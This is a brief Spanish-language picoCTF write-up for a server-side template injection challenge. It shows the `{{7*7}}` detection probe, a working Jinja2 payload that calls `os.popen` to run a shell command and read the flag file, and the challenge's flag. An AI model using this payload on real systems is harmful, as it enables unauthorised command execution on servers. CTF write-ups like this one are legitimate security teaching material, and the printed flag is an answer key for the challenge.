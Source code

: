 #### Descripción

I made a cool website where you can announce whatever you want! Try it out!
###### Pistas
- Server Side Template Injection

#### Solución 
Para este reto como bien nos dice el nombre y la pista tenemos que hacer una inyeccion de un template del lado del servidor, esto podemos comprobarlo mandando una operacion como ejemplo `{{7*7}}` en donde si nos regresa el resultado podemos ver la vulnerabilidad, entonces usando un pequeño comandito secreto de la dea: `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}`, podemos sacar la flag.

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}
```

